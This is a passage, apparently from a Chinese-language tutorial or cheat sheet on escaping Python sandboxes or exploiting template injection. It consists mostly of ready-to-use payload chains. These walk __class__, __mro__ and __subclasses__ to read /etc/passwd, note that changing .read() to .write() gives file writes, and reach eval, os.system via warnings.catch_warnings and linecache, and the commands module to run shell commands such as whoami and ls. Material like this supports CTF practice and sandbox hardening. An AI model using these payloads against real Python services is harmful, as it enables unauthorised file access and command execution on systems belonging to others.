 还有另外的方法：

```python
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()
```

写文件换为 .write() 即可。

**命令执行**

**No.1**

利用eval 进行命令执行。

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
```

或者。。。

**No.2**

利用warnings.catch_warnings 进行命令执行。

首先，查看 warnings.catch_warnings 方法的位置：

```python
[].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
```

查看 linecatch 的位置：

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__.keys().index('linecache')
```

查找 os 模块的位置：

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.keys().index('os')
```

查找 system 方法的位置：

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.keys().index('system')
```

调用 system 方法：

```python
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
```

**No.3**

利用 commands 进行命令执行。

```python
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
```
